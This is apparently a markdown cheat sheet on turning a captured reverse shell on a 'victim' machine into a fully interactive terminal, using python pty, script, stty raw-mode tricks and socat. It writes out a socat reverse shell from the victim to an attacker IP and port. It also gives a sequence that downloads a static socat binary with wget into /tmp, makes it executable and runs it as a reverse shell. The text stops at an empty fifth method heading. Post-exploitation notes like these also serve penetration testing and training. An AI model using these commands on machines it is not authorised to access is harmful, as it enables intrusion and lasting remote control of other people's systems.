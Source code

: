 # Upgrade shell to fully interactive tty 


get a vistim shell connection on your machine  

you can use python to spawn tty shell by using the pty built-in library if python available  

or you can also use other techniques like script or ruby 

## methode 1 : python (half interactive shell) 

> **python -c 'import pty; pty.spawn("/bin/bash")'**

## methode 2 : script 

> **/usr/bin/script -qc /bin/bash /dev/null**  


## Methode 3 : stty options (fully interactive)

> **python -c 'import pty;pty.spawn("/bin/bash")' ** 

> ****

check your local machine terminal and also terminal rows and columns   

> **echo $TERM** 
> **stty size**

we need to export that values to victim session
 
> **export TERM=xterm-256color**
> **export SHELL=/bin/bash** 

On the victim shell, fork the shell to background by pressing ctrl+z and 
now you'll bring back to your local terminal  
 
Follow with the command to bring back the victim shell to foreground   

> **stty raw -echo;fg**

now the curser should be somewhere on the middle and you need to type 

   >    **reset**

 now we can specify  terminal with the number of rows and columns to make it display properly as we get from our local machine  


stty rows <number of rows> columns <number of columns>  

Now we have a fully interactive shell  

## Methode 4 : socat (fully interactive)

check if f socat is installed on the victim machine   
if installed  you can launch a reverse shell with it  

on attacker machine : 

> **socat file:`tty`,raw,echo=0 tcp-listen:<port>**  

on victim machine   :

> **socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip>:<port>**  

if socat is not installed  you can try your luck with the standalone binary  

you can find it here https://github.com/andrew-d/static-binaries/tree/master/binaries


> wget -q https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat -O /tmp/socat
> chmod +x /tmp/socat 
> /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip>:<port>

now you have a fully interactive shell on your machine   


## Methode 5 :  